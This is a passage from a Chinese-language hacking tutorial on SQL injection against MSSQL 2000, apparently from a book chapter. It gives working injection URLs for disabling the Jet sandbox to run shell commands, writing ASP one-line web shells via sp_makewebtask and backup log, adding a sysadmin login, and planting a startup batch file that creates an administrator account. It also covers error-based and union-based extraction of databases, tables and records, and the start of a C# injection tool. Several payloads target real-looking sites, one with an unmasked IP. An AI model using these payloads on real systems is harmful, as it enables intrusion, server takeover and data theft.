在 Access 里调用 VBS 的函数，以 system 权限执行命令。使用之前必须把注册表里的一个叫 SandBoxMode 的开关关闭，注册表键值位置：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Jet\4.0\Engines\SandBoxMode`。默认值为 2，0 表示始终禁用 SandBoxMode 模式。我们通过 xp_regwrite 存储过程改写注册表，把默认值 2 修改为 0（设置为 0 可以执行命令），然后利用 OpenRowSet 访问系统本身自带的一个 ACCESS 数据库文件，再执行运行命令的 SQL 语句。

将 SandBoxMode 开关的注册表值修改为 0：

```sql
;exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;--
```

OpenRowSet 函数连接到一个数据库中。这里我们打开 Jet 引擎连接到一个 Access 数据库，Windows 系统目录下本身存在的数据库 `C:\WINDOWS\system32\ias\dnary.mdb`（Windows 2000）或 `C:\WINDOWS\system32\ias\ias.mdb`（Windows 2003）：

```sql
;select * from openrowset('microsoft.jet.oledb.4.0','','database=C:\WINDOWS\system32\ias\dnary.mdb','select shell("c:\windows\system32\cmd.exe /c net user")');--
```

例如我们提交下面的 URL，就可以执行“net user”命令了：

```text
http://210.xx.xx.190/bbs/content_news.aspx?forum_id=10002&title_id=4397;exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;--
http://210.xx.xx.190/bbs/content_news.aspx?forum_id=10002&title_id=4397;select * from openrowset('microsoft.jet.oledb.4.0','','database=C:\WINDOWS\system32\ias\dnary.mdb','select shell("c:\windows\system32\cmd.exe /c net user > poopoopoo.tmp")');--
```

##### 2.3.5 sp_makeWebtask 写文件

有些时候管理员会删除某些扩展存储过程，这时我们可以考虑利用 sp_makeWebtask 直接在 Web 目录里写入一句话的 WebShell。sp_makeWebtask 是 MSSQL 的一个扩展存储过程，创建一项生成 HTML 文档的任务，该文档包含执行过的查询返回数据，也可以直接写入文本文件。默认情况下只有 **SYSADMIN（sa）** 权限才能执行，所以用 sp_makeWebtask 直接在 Web 目录里写入木马的条件是需要 sa 权限和站点的 Web 物理路径，并且 Web 服务器和数据库服务器是同一台机器。

站点的 Web 物理路径我们可以通过返回的错误提示得到，如图 17 所示的错误信息里显示了物理路径“F:\工作\星讯\xsc3\xsc\News.aspx.cs”。

图 17 错误信息里显示了物理路径

我们也可以用后面介绍的 xp_dirtree 存储过程的列目录功能来得到站点的 Web 物理路径。写入木马的语句：

```sql
exec sp_makewebtask 'd:\xxx\xxx\xxx.asp','select ''<%25execute(request("cn"))%25>''';--
```

在 select 中，双单引号起着重定义的作用。例如我们检测发现 `http://210.xx.xx.190/bbs/content_news.aspx?forum_id=10002&title_id=4397` 存在 sa 权限的注入，网站的物理路径为 `d:\CletcNewWeb\bbs\`，我们提交：

```text
http://210.72.224.190/bbs/content_news.aspx?forum_id=10002&title_id=4397;exec sp_makewebtask 'd:\CletcNewWeb\bbs\hacker.asp','select ''<%eval request(chr(35))%>''';--
```

如果返回的是正常页面，说明我们提交成功；如果返回如图 18 所示类似“未处理异常”的信息，则表示指定的物理路径不存在。

图 18 指定的物理路径不存在“不能打开输出文件”的信息，说明我们指定的物理路径不存在，没有成功写入木马。


图19 成功写入木马


图20 访问木马

未能打开输出文件的原因有很多种，比如我们指定的目录确实不存在，或者 Web 服务器和数据库服务器不是同一台机器，等等。

我们在写入成功后，访问 `http://210.xx.xx.190/bbs/hacker.asp`，返回如图19所示内容，说明我们成功写入了木马。

这时，我们用一句话木马的客户端连接 `http://210.xx.xx.190/bbs/hacker.asp`，会得到一个有很多乱码的 WebShell，很容易就控制一个网站了，如图20及图21所示。


图21 浏览目录

##### 2.3.6 添加 sysadmin 权限用户

如果我们得到了一个 sa 权限的注入点，同时服务器对外开放了 1433 端口（可以远程连接到 MSSQL 服务器），可以添加一个具有 sysadmin 权限的数据库账户，通过这个账户远程连接到 MSSQL 服务器，进而得到服务器的控制权。添加账户代码如下：

```sql
exec master.dbo.sp_addlogin pois0n;--
exec master.dbo.sp_addsrvrolemember pois0n,sysadmin;--
exec master.dbo.sp_password null,pois0n,pois0n;--
```

这样就添加一个具有 sysadmin 权限的数据库账户 pois0n，密码为 pois0n。例如，我们发现 `http://www.xxx.com/info/info.jsp?id=18239` 是一个 sa 权限的注入点，并且通过扫描器发现服务器开了 1433 端口，可以远程连接到 MSSQL 服务器。我们依次提交：

```sql
http://www.xxx.com/info/info.jsp?id=18239;exec master.dbo.sp_addlogin pois0n;--
http://www.xxx.com/info/info.jsp?id=18239;exec master.dbo.sp_addsrvrolemember pois0n,sysadmin;--
http://www.xxx.com/info/info.jsp?id=18239;exec master.dbo.sp_password null,pois0n,pois0n;--
```

这样就添加一个具有 sysadmin 权限的数据库账户 pois0n，密码为 pois0n。我们通过查询分析器连接到数据库服务器，如图22所示。

这样我们就完全可以通过上面介绍的 sa 权限执行系统命令的几种方法来执行命令，而且很方便地看到执行命令结果。


##### 2.3.7 db_owner 权限注入

针对 db_owner 权限特有的注入方式，我们可以概括为：

- 列目录查找 Web 路径，备份数据库获得 WebShell。
- 备份可执行脚本到启动目录，直接执行系统命令。

###### xp_dirtree 列目录

xp_dirtree 存储过程用来查看文件夹结构或一个文件夹下的文件列表。这个存储过程有几个参数用来控制查询深度和返回类型。第一个参数设定要查看的文件夹目录；第二个参数限制了进行递归的级数，一般设为 1，即显示当前文件夹下的一级文件结构；第三个参数决定是否包括文件，默认是 0（只包含文件夹不包含文件），一般设为 1，代表包括文件。默认 public 权限就可以执行 xp_dirtree 存储过程。

通过 xp_dirtree 存储过程列目录的过程以及用到的语句如下：建立一个数据表 poopoopoo，用来保存 xp_dirtree 列目录的结果：

```sql
;drop table poopoopoo;
create table poopoopoo (
  [id] [int] identity (1,1) not null,
  [name] [nvarchar](300) not null,
  [depth] [int] not null,
  [isfile] [nvarchar](50) null
)--
```

把 xp_dirtree 返回的结果写入到数据表中，这里列出 C 盘下所有一级文件目录结构（包括文件）：

```sql
;insert poopoopoo exec master..xp_dirtree 'c:\\',1,1--
```

查询 poopoopoo 表中的行数，即文件目录的个数：

```sql
and (select char(94)%2Bcast(count(*) as nvarchar(4000))%2Bchar(94) from [poopoopoo])>0--
```

变换 top N 中的 N，查询出 poopoopoo 表中的所有记录，即得到查询目录下的所有目录文件名：

```sql
and (select top 1 cast([name] as nvarchar(4000)) from (select distinct top N * from poopoopoo order by name) t order by name desc)>0--
```

下面我们看一个列目录的示例。`http://www1.xxx.cn/down.aspx?fid=1298` 存在 db_owner 权限的注入点，我们想查找 Web 目录的物理路径。

首先建立一个数据表 poopoopoo，保存 xp_dirtree 列目录的结果：

```sql
http://www1.xxx.cn/down.aspx?fid=1298;drop table poopoopoo;create table poopoopoo ([id] [int] identity (1,1) not null,[name] [nvarchar](300) not null,[depth] [int] not null,[isfile] [nvarchar](50) null)--
```

列出 D 盘下所有一级目录和文件，把 xp_dirtree 返回的结果写入到数据表中：

```sql
http://www1.xxx.cn/down.aspx?fid=1298;insert poopoopoo exec master..xp_dirtree 'd:\\',1,1--
```

查询 poopoopoo 表中的行数，即文件目录的个数，说明 D 盘下面包含 10 个目录或文件：

```sql
http://www1.xxx.cn/down.aspx?fid=1298 and (select char(94)%2Bcast(count(*) as nvarchar(4000))%2Bchar(94) from [poopoopoo])>0--
```

返回结果如图23所示。


图23 D盘下面包含10个目录或文件

查询 poopoopoo 表中第一条记录，返回一个目录或文件名：

```sql
http://www1.xxx.cn/down.aspx?fid=1298 and (select top 1 cast([name] as nvarchar(4000)) from (select distinct top 1 * from poopoopoo order by name) t order by name desc)>0--
```

返回结果如图24所示，说明 D 盘下存在一个名为“11.log”的文件。查询 poopoopoo 表中第三条记录，返回一个目录或文件名：

```sql
http://www1.xxx.cn/down.aspx?fid=1298 and (select top 1 cast([name] as nvarchar(4000)) from (select distinct top 3 * from poopoopoo order by name) t order by name desc)>0--
```

返回结果如图25所示，说明 D 盘下存在一个名为“Backup_everyday1”的文件夹。


图24 D盘下存在文件11.log


图25 D盘下存在文件夹Backup_everyday1

###### backup log 获得 WebShell

通过 db_owner 权限成功备份 WebShell 的条件是得到 Web 的物理路径，并且 Web 服务器和数据库服务器是同一台机器。如果 Web 服务器和数据库服务器是分开的，那我们备份的 WebShell 只能存在于数据库服务器上，即使成功备份也无法通过 Web 服务来访问。那么可以用 backup log 来实现。获得 WebShell 的语句为：

截断事务日志减小备份数据大小，减少备份 WebShell 的文件大小：

```sql
;backup log databasename with no_log--
;dbcc shrinkdatabase (databasename)--
```

把 SQL 设置成日志完全恢复模式，“databasename”为数据库名：

```sql
;alter database databasename set RECOVERY FULL--
```

新建立一个 potmp 表：

```sql
;create table potmp(cmd image)--
```

先把数据库日志备份到一个临时文件 `c:\potmp` 中：

```sql
;backup log databasename to disk = 'c:\potmp' with init--
;insert into potmp(cmd) values(0x3C25657865637574652072657175657374286368722833352929253E)--
```

`0x3C25657865637574652072657175657374286368722833352929253E` 是 `<%execute request(chr(35))%>` 的16进制表示形式。

备份日志到 Web 的物理路径：

```sql
;backup log databasename to disk = 'E:\WebSite\xcc.cn\help.asp'--
```

删除建的表：

```sql
;drop table potmp--
```

下面我们看一个通过 db_owner 权限备份 WebShell 的示例。我们发现 `http://library.xxx.cn/recourse/RecourseContent.aspx?RecId=RC2008000146` 存在一个字符类型的 db_owner 权限注入点，并且知道 Web 目录的物理路径为 `D:\libWeb\recourse\`，当前数据库名为 `xplib_db`。

首先截断事务日志减小备份数据大小，`xplib_db` 为当前数据库的名字：

```sql
http://library.xxx.cn/recourse/RecourseContent.aspx?RecId=RC2008000146';backup log xplib_db with no_log--
http://library.xxx.cn/recourse/RecourseContent.aspx?RecId=RC2008000146';dbcc shrinkdatabase (xplib_db)--
```

把 SQL 设置成日志完全恢复模式：

```sql
http://library.xxx.cn/recourse/RecourseContent.aspx?RecId=RC2008000146';alter database xplib_db set RECOVERY FULL--
```

新建立一个 potmp 表：

```sql
http://library.xxx.cn/recourse/RecourseContent.aspx?RecId=RC2008000146';create table potmp(cmd image)--
http://library.xxx.cn/recourse/RecourseContent.aspx?RecId=RC2008000146';backup log xplib_db to disk='c:\potmp' with init--
```

`0x3C25657865637574652072657175657374286368722833352929253E` 是 `<%execute request(chr(35))%>` 的16进制形式：

```sql
http://library.xxx.cn/recourse/RecourseContent.aspx?RecId=RC2008000146';insert into potmp(cmd) values(0x3C25657865637574652072657175657374286368722833352929253E)--
```

备份日志到 Web 路径 `D:\libWeb\recourse\help.asp`：

```sql
http://library.xxx.cn/recourse/RecourseContent.aspx?RecId=RC2008000146';backup log xplib_db to disk='D:\libWeb\recourse\help.txt'--
```

最后访问 `http://library.xxx.cn/recourse/help.asp`，我们就直接得到网站的 WebShell，如图26所示。

###### db_owner 权限备份获取系统权限

前面我们介绍了 MSSQL 备份获取 WebShell。既然我们可以备份文件到服务器上，那么也可以利用备份出来的文件执行恶意代码，让系统执行之后自动下载运行木马或者添加管理员。


图26 得到 WebShell

如果我们把文件备份到“C:\Documents and Settings\All Users\「开始」菜单\程序\启动”目录，等到服务器重启的时候系统会自动运行这个文件。我们可以备份一个 bat 文件到启动目录，进行自动下载运行木马或者添加管理员。但是 MSSQL 备份的时候，到一定的字符长度就会出现垃圾字符，那个字符会影响我们的操作，所以我们要把语句尽量缩小。

原理知道以后，我们写一个添加管理员用户的 bat，备份到启动目录，服务器重启的时候系统会自动运行这个文件，最后通过添加管理员用户获取系统权限。

下面是 BAT 代码：

```bat
@echo off
@net user poison /add & net localgroup administrators poison /add
```

代码前后要用回车把垃圾数据屏蔽掉，避免执行命令出错，至少用 2 个以上回车屏蔽。

把上面代码转化成16进制形式为：

```text
0x130A0D0A406563686F206F66660D0A406E6574207573657220706F69736F6E202F6164642026206E6574206C6F63616C67726F75702061646D696E6973747261746F727320706F69736F6E202F6164640D0A0D0A0D0A
```

db_owner 权限备份获取系统权限的代码如下，首先是截断事务日志减小备份数据大小，减少备份的 WebShell 文件大小：

```sql
backup log databasename with no_log--
dbcc shrinkdatabase (databasename)--
```

把 SQL 设置成日志完全恢复模式，“databasename”为数据库名：

```sql
;alter database databasename set RECOVERY FULL--
```

新建立一个 potmp 表：

```sql
;create table potmp(cmd image)--
```

把数据库日志备份到一个临时文件 `c:\potmp` 中：

```sql
;backup log databasename to disk = 'c:\potmp' with init--
;insert into potmp(cmd) values(0x130A0D0A406563686F206F66660D0A406E6574207573657220706F69736F6E202F6164642026206E6574206C6F63616C67726F75702061646D696E6973747261746F727320706F69736F6E202F6164640D0A0D0A0D0A)--
```

备份日志到启动目录：

```sql
;backup log databasename to disk ='C:\Documents and Settings\Administrator\「开始」菜单\程序\启动\useradd.bat'--
```

删除建的表：

```sql
;drop table potmp--
```

##### 2.3.8 public 权限注入

public 权限是数据库用户的公共权限，也可以理解为最低权限，只能使用 SQL 中的数据查询语言（SELECT）和数据操作语言（UPDATE、INSERT、DELETE），不能使用 SQL 中数据定义语言，不能进行创建数据表等操作。对于 public 权限，典型的利用方式就是猜解数据库中管理员的信息了。

###### 猜解数据库

MS SQL Server 默认安装了 master、model、msdb、northwind、pubs、tempdb 这 6 个数据库，其中 northwind、pubs 是系统自带的实例数据库，其它都是系统数据库。数据库名称在 master 数据库中的 sysdatabases 表中，sysdatabases 数据表中的 dbid 字段的值大于 6 的就是用户自己建的数据库。sysdatabases 数据表中的 name 字段就是数据库名称。我们可以在查询分析器执行 `select dbid,name,filename from master..sysdatabases`，查看 sysdatabases 表的信息，如图27所示。


图27 查看sysdatabases表的信息

Filename 字段是数据库在服务器上的物理路径。我们可以通过遍历 name 字段的值来得到系统中所有数据库的名字。

首先猜解数据库个数：```sql
and (select char(94)+cast(count(name) as nvarchar(4000))+char(94) from [master]..[sysdatabases])>0--
```

“+”在 MSSQL 中是连接字符，连接左右两端的字符。这里为什么是“(select char(94)+cast(count(name) as nvarchar(4000))+char(94) from [master]..[sysdatabases])>0”而不是“(select cast(count(name) as nvarchar(4000)) from [master]..[sysdatabases])>0”呢？大家应该知道，我们的目的是把 nvarchar 类型的数据跟 int 整数类型作比较，把转换过程中的错误消息显示出来。如果后面的语句是一个整数类型，即使通过 cast() 函数做了强制转换，在比较过程中也不会有错误发生。

接着猜解数据库名字，变换 top N 中的 N 遍历出所有可用数据库名：

```sql
and (select top 1 cast([name] as nvarchar(4000)) from (select top N dbid,name from [master]..[sysdatabases] order by [dbid]) t order by [dbid] desc)>0--
```

我们通过下面一个例子看如何构造 URL 来遍历出数据库名字。首先猜解可用数据库个数：

```sql
http://www.xxx.cn/Zlfb/Information/Information_View.aspx?ContentId=542' and (select char(94)%2Bcast(count(name) as nvarchar(4000))%2Bchar(94) from [master]..[sysdatabases])>0--


```

返回结果如图 28 所示，说明存在 9 个可用的数据库。
猜解第一个数据库名字：

```sql
http://www.xxx.cn/Zlfb/Information/Information_View.aspx?ContentId=542' and (select top 1 cast([name] as nvarchar(4000)) from (select top 1 dbid,name from [master]..[sysdatabases] order by [dbid]) t order by [dbid] desc)>0--


```

返回结果如图 29 所示，第一个数据库名字“master”。
猜解第八个数据库名字：

```sql
http://www.xxx.cn/Zlfb/Information/Information_View.aspx?ContentId=542' and (select top 8 cast([name] as nvarchar(4000)) from (select top 8 dbid,name from [master]..[sysdatabases] order by [dbid]) t order by [dbid] desc)>0--


```

返回结果如图 30 所示，第八个数据库名字“jyscic”。
图30 第八个数据库的名字

###### 猜解数据库中的数据表

在得到了某个数据库以后，需要猜解数据库中的数据表有哪些，有没有我们比较关心的，如存储管理员信息的表等。每个数据库内都有一个系统表——sysobjects 数据表。sysobjects 数据表存放该数据库内创建的所有对象信息，如数据表、日志、规则、存储过程等，每个对象的信息在 sysobjects 数据表中占一行。我们注入中常用的字段有 Name（对象名）、id（对象 ID）、xtype（对象类型），在查询分析器里查看 poison 数据库里面有哪些数据表使用 `select name from poison..sysobjects where xtype='u'`，如图 31 所示。
图31 poison数据库中的数据表

得到 database_name 数据库中表的个数：

```sql
and (select char(94)%2Bcast(count(name) as nvarchar(4000))%2Bchar(94) from [database_name]..[sysobjects] where xtype='u')>0--
```

猜解 database_name 数据库中的表名，变换 top N 中的 N 查询出所有数据表名：

```sql
and (select top 1 cast([name] as nvarchar(4000)) from (select top N name from [database_name]..[sysobjects] where xtype='u' order by [name]) t order by [name] desc)>0--
```

我们通过下面一个例子看如何构造 URL 来遍历出 jyscic 数据库中的所有用户表的名字。我们依次提交：

```sql
http://www.xxx.cn/Zlfb/Information/Information_View.aspx?ContentId=542' and (select char(94)%2Bcast(count(name) as nvarchar(4000))%2Bchar(94) from [jyscic]..[sysobjects] where xtype='u')>0--


```

返回结果如图 32 所示，说明 jyscic 数据库存在 266 个可用的数据表。
图32 存在266个可用数据表

```sql
http://www.xxx.cn/Zlfb/Information/Information_View.aspx?ContentId=542' and (select top 1 cast([name] as nvarchar(4000)) from (select top 1 name from [jyscic]..[sysobjects] where xtype='u' order by [name]) t order by [name] desc)>0--


```

返回结果如图 33 所示，说明 jyscic 数据库第一个数据表为“Credit_Operator_log”。
图33 第一个数据表为 Credit_Operator_log

```sql
http://www.xxx.cn/Zlfb/Information/Information_View.aspx?ContentId=542' and (select top 1 cast([name] as nvarchar(4000)) from (select top 10 name from [jyscic]..[sysobjects] where xtype='u' order by [name]) t order by [name] desc)>0--


```

返回结果如图 34 所示，说明 jyscic 数据库第十个数据表为“d_blgc”。我们变换 top N 中的 N 查询出所有数据表名了。
图34 第十个数据表为 d_blgc

###### 猜解列名

得到了数据库名和数据库中的数据表，我们还要知道数据表中包含哪些列，然后才能根据这些列（字段）去猜解记录。每个数据库内都有一个系统表——syscolumns 数据表。syscolumns 数据表存放该数据库中数据表包含列的对应信息，数据库中每个表的列在表中占一行。我们注入中常用的字段有 Name（列名）、id（该列所属的表对象 id，id 等于 sysobjects 表中对应的 id）。

例如我们想得到 database_name 数据库中 table_name 表的所有列，首先我们要得到 table_name 表的对象 id：

```sql
and (select char(94)%2Bcast(id as nvarchar(4000))%2Bchar(94) from [database_name]..[sysobjects] where xtype='u' and name='table_name')>0--
```

得到 table_name 数据表中列名的个数：

```sql
and (select char(94)%2Bcast(count(name) as nvarchar(4000))%2Bchar(94) from [database_name]..[syscolumns] where id='idxxx')>0--
```

猜解 table_name 数据表中的列名，变换 top N 中的 N 查询出数据表中所有列名：

```sql
and (select top 1 cast([name] as nvarchar(4000)) from (select top N name from [database_name]..[syscolumns] where id='idxxx' order by [name]) t order by [name] desc)>0--
```

我们通过下面一个例子看如何构造 URL 来遍历出 jyscic 数据库中的 Credit_Operator_log 表的所有列名。我们提交：

```sql
http://www.xxx.cn/Zlfb/Information/Information_View.aspx?ContentId=542' and (select char(94)%2Bcast(id as nvarchar(4000))%2Bchar(94) from [jyscic]..[sysobjects] where xtype='u' and name='Credit_Operator_log')>0--


```
图35 Credit_Operator_log表的对应ID

返回结果如图 35 所示，说明 Credit_Operator_log 表的对应 ID 为“532196946”。

```sql
http://www.xxx.cn/Zlfb/Information/Information_View.aspx?ContentId=542' and (select char(94)%2Bcast(count(name) as nvarchar(4000))%2Bchar(94) from [jyscic]..[syscolumns] where id='532196946')>0--


```
图36 Credit_Operator_log表有9个字段

返回结果如图 36 所示，说明 Credit_Operator_log 表中有 9 个字段。

```sql
http://www.xxx.cn/Zlfb/Information/Information_View.aspx?ContentId=542' and (select top 1 cast([name] as nvarchar(4000)) from (select top 1 name from [jyscic]..[syscolumns] where id='532196946' order by [name]) t order by [name] desc)>0--


```
图37 Credit_Operator_log表中有“AfterXml”字段

返回结果如图 37 所示，说明 Credit_Operator_log 表中有一个“AfterXml”字段。

```sql
http://www.xxx.cn/Zlfb/Information/Information_View.aspx?ContentId=542' and (select top 1 cast([name] as nvarchar(4000)) from (select top 9 name from [jyscic]..[syscolumns] where id='532196946' order by [name]) t order by [name] desc)>0--


```

返回结果如图 38 所示，说明 Credit_Operator_log 表中有一个“OperatorType”字段。
图38 Credit_Operator_log 表中有“OperatorType”字段

###### 猜解记录内容

得到了数据库、数据表、表中的字段，接下来就是最关键的猜解表中的数据了。得到 database_name 数据库中 table_name 表中记录的个数：

```sql
and (select char(94)%2Bcast(count(*) as nvarchar(4000))%2Bchar(94) from database_name..table_name)>0--
```

猜解 table_name 表中记录内容，变换 top N 中的 N 查询记录内容：

```sql
and (select top 1 cast([id] as nvarchar(4000))%2Bchar(124)%2Bcast([column1] as nvarchar(4000))%2Bchar(124)%2Bcast([column2] as nvarchar(4000)) from (select top N id,operatortype,afterxml from database_name..table_name where 1=1 order by 1) t order by 1 desc)>0--
```

例如我们猜解 jyscic 数据库中的 Credit_Operator_log 表的 AfterXml 字段的内容。我们提交：

```sql
http://www.xxx.cn/Zlfb/Information/Information_View.aspx?ContentId=542' and (select char(94)%2Bcast(count(*) as nvarchar(4000))%2Bchar(94) from Credit_Operator_log)>0--


```

返回结果如图 39 所示，说明 Credit_Operator_log 表中存在 7 条记录。
图39 Credit_Operator_log 表存在 7 条记录

```sql
http://www.xxx.cn/Zlfb/Information/Information_View.aspx?ContentId=542' and (select top 1 cast([id] as nvarchar(4000))%2Bchar(124)%2Bcast([afterxml] as nvarchar(4000)) from (select top 2 id,afterxml from [jyscic]..[credit_operator_log] where 1=1 order by 1) t order by 1 desc)>0--


```

返回结果如图 40 所示，得到 Credit_Operator_log 表中第二条记录 AfterXml 字段的内容。
图40 第二条记录 AfterXml 字段的内容

## 2.4 union 联合查询注入攻击

错误提示开启下，我们很容易就可以得到敏感信息，不需要像 ACCESS 那样一个字符一个字符地猜解。但是当错误提示关闭，即没有返回详细的错误信息时，就不能这样利用了。这时我们还可以利用“union”查询，也可以很方便地得到返回的信息。union 查询和错误提示下 SQL 注入的利用方法大同小异。唯一的区别就是，错误提示开启的情况下利用错误提示将返回查询结果显示在页面上，union 查询是利用 union 查询将返回的查询结果显示在页面上。

在注入中 union 查询是很方便的，不用一个字符接一个字符地去猜解，大大提高了效率。使用 UNION 查询可以让我们很容易地得到注入返回的敏感信息。但是任何事物都有两面性，这么好用的东西当然不能随便使用。我们在前面介绍 SQL 的时候说过，union 查询需要满足两个条件：

- 1) 所有查询中的列数和列的顺序必须相同。
- 2) 数据类型必须兼容。

### 2.4.1 匹配 union 查询字段数

为了使得所有 union 查询中 union 前后的列数和列的顺序相同，我们首先需要匹配 union 查询字段数。匹配 union 查询字段数一般有两种方法，一种是 order by 判断方法，一种是 union select n1,n2 的方法。下面我们以具体的例子来分别说明。

###### order by 匹配

例如我们发现 `http://www.xxx.cn/list.aspx?id=zzfw` 存在字符型的注入。我们提交：

```sql
http://www.xxx.cn/list.aspx?id=zzfw' order by 10--


```
返回如图 41 所示，返回错误页面，说明要匹配的字段数小于 10。继续提交：

图41 字段数小于10

```text
http://www.xxx.cn/list.aspx?id=zzfw' order by 5--
```

返回如图42所示，返回正确页面，说明要匹配的字段数大于等于 5。

继续提交，直到：

```text
http://www.xxx.cn/list.aspx?id=zzfw' order by 7--
```

返回错误页面。

```text
http://www.xxx.cn/list.aspx?id=zzfw' order by 6--
```

返回正常页面。说明要匹配的字段数小于 7 并且大于等于 6，那么可以确定应该为 6 了。

###### union select n1,n2 匹配

例如我们发现 `http://www.xxx.cn/list.aspx?id=zzfw` 存在字符型的注入。我们提交：

```text
http://www.xxx.cn/list.aspx?id=zzfw' and 1=2 union select 1--
```

返回如图43所示，返回错误页面，说明要匹配的字段数大于 1。

增加字段继续提交：

```text
http://www.xxx.cn/list.aspx?id=zzfw' and 1=2 union select 1,2--
```

返回错误，增加字段继续提交：

```text
http://www.xxx.cn/list.aspx?id=zzfw' and 1=2 union select 1,2,3--
```

返回错误，增加字段继续提交：

```text
http://www.xxx.cn/list.aspx?id=zzfw' and 1=2 union select 1,2,3,4--
```

返回错误，增加字段继续提交：

```text
http://www.xxx.cn/list.aspx?id=zzfw' and 1=2 union select 1,2,3,4,5--
```

返回错误，增加字段继续提交：

```text
http://www.xxx.cn/list.aspx?id=zzfw' and 1=2 union select 1,2,3,4,5,6--


```
图42 字段数大于等于5
图43 字段数大于1

返回正确页面，如图44所示，说明要匹配的字段数等于 6。

图44中有些地方显示了数字 3，这个数字代表什么呢？我们把上面的语句 `http://www.xxx.cn/list.aspx?id=zzfw' and 1=2 union select 1,2,3,4,5,6--` 串中的 3，换成 user 提交，返回如图45所示。
我们分析图45中显示的内容，在页面中 3 的位置显示的是当前数据库用户。这就是 union 查询的方便之处。

## 2.4.2 union 获取基本信息

提交 `http://www.xxx.cn/list.aspx?id=zzfw' and 1=2 union ...`
`select 1,2,@@version,4,5,6--`，返回结果如图46所示，得到数据库版本信息。

提交 `http://www.xxx.cn/list.aspx?id=zzfw' and 1=2 union select 1,2,db_name(),4,5,6--`，返回结果如图47所示，得到数据库名称“DBWeb”。

提交 `http://www.xxx.cn/list.aspx?id=zzfw' and 1=2 union select 1,2,host_name(),4,5,6--`，返回结果如图48所示，得到当前连接的客户端名称“USER-KQGG4SMQD9”。
图48 得到当前连接的客户端名称　　图49 得到数据库服务器名称

提交 `http://www.xxx.cn/list.aspx?id=zzfw' and 1=2 union select 1,2,@@servername,4,5,6--`，返回结果如图49所示，得到数据库服务器名称“WebDATA_MAIN”。和上面当前连接的客户端名称“USER-KQGG4SMQD9”不同，Web 服务器和数据库服务器不是同一台机器，也就是常说的 Web 和 data 分离。

## 2.4.3 union 查询得到执行命令回显

我们以 xp_cmdshell 执行系统命令为例，看一下如何利用 union 查询得到执行命令回显结果。前面我们介绍了错误提示下用到的语句，现在分析一下 union 查询是如何实现的。

创建一个数据表 poopoopoo，保存执行命令的回显结果：

```sql
;drop table [poopoopoo];create table [poopoopoo]([resulttxt] nvarchar(4000) null);--
```

insert into 把通过 xp_cmdshell 执行命令返回的结果插入到 poopoopoo 表中：

```sql
;insert into [poopoopoo]([resulttxt]) exec master..xp_cmdshell 'net user';alter table [poopoopoo] add id int not null identity (1,1)--
```

查询 poopoopoo 表中执行命令返回结果的行数：

```sql
and 1=2 union select 1,2,3,4,count(*),5 from poopoopoo---
```

变换 top N 中的 N 查询出 poopoopoo 表中的所有记录，即得到执行命令的返回结果：

```sql
and 1=2 union all select top 1 cast(resulttxt as nvarchar(4000)),null,null from (select top 1 resulttxt from (select top N id,resulttxt from [poopoopoo] where resulttxt is not null order by 1) t order by 1 desc)t--- and 1=1
```

我们可以看出执行过程十分相似，唯一的不同就是在猜解 poopoopoo 表中返回的结果时，这里用到了 union 查询，而不是通过错误提示把结果显示在页面中。我们通过下面一个例子看如何构造 URL 来利用 union 查询得到执行命令的结果。`http://www.xxx.tw/news/news1.asp?no=41` 这个地址为 sa 权限并且满足 union 查询条件，匹配的字段数为 3。我们提交：

```text
http://www.xxx.tw/news/news1.asp?no=41;drop table [poopoo poo];create table [poopoo poo]([resulttxt] nvarchar(4000) null);--

http://www.xxx.tw/news/news1.asp?no=41;insert into [poopoo poo]([resulttxt]) exec master..xp_cmdshell 'ver';alter table [poopoo poo] add id int not null identity (1,1)--

http://www.xxx.tw/news/news1.asp?no=41 and 1=2 union all select cast(count(*) as nvarchar(4000)),null,null from [poopoo poo]---

http://www.xxx.tw/news/news1.asp?no=41 and 1=2 union all select top 1 cast(resulttxt as nvarchar(4000)),null,null from (select top 1 resulttxt from (select top 1 id,resulttxt from [poopoo poo] where resulttxt is not null order by 1) t order by 1 desc)t---


```
返回结果如图50所示。

## 3 MSSQL2000注入工具代码实现

为了我们更好地实现程序功能，把重点放在代码实现上，这里我已经设计好了程序的主界面，我们只需在相应的地方添加功能代码即可。

实例1是我已经设计好的程序，大家只需在这个基础上添加功能代码实现相应功能即可（完整代码参见光盘实例1），界面如图51所示。
#### 3.1 判断 MSSQL 数据库版本

MSSQL2000 和 MSSQL2005 不同的版本利用方法是不同的。首先我们需要判断 MSSQL 的版本。前面我们介绍过如何去判断注入点的数据库类型。在我们检测出是 MSSQL 数据库后，还要继续去判断 MSSQL 的版本信息。

```csharp
/* 我们在修改 checkInjectionWithNoKeyword() 函数和 checkInjectionWithKeyword 函数的代码，在检测出 mssql 数据库后添加版本检测的代码 */
private void checkInjectionWithNoKeyword()
{
    ......
    ......
    getHttpStatuscodeAndContentLength(my_checkUrl, out normalStatusCode, out normalContentLength);
    getHttpStatuscodeAndContentLength(my_checkUrl + " and 1=1", out StatusCode_11, out ContentLength_11);

    getHttpStatuscodeAndContentLength(my_checkUrl + " and 1=2", out StatusCode_12, out ContentLength_12);
    // 首先我们判断注入类型（这里只给出数字型的代码）
    if (checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12, normalContentLength, ContentLength_11, ContentLength_12))
    {
        comboBox_type.Text = "数字型";
        /* 判断出注入类型后我们判断是否开启了错误提示，判断错误提示的方法就是判断我们提交 url+and user>0-- 返回的页面中是否包含“转换为数据类型为 int”，如果包含说明开启了错误提示，不包含说明没有开启错误提示 */
        if (getHttpContent(my_checkUrl + " and user=0--").Contains("转换为数据类型为 int"))
        {
            getHttpStatuscodeAndContentLength(my_checkUrl + " and substring(cast(SERVERPROPERTY('productversion') as nvarchar(4000)),1,1)>8--", out StatusCode_11, out ContentLength_11);
            getHttpStatuscodeAndContentLength(my_checkUrl + " and substring(cast(SERVERPROPERTY('productversion') as nvarchar(4000)),1,1)<=8--", out StatusCode_12, out ContentLength_12);

            if (checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12, normalContentLength, ContentLength_11, ContentLength_12))
            {
                comboBox_database.Text = "MSSQL2005 with error";
            }
            else
            {
                comboBox_database.Text = "MSSQL2000 with error";
            }
        }
        else
        {
            getHttpStatuscodeAndContentLength(my_checkUrl + " and substring(cast(SERVERPROPERTY('productversion') as nvarchar(4000)),1,1)>8--", out StatusCode_11, out ContentLength_11);
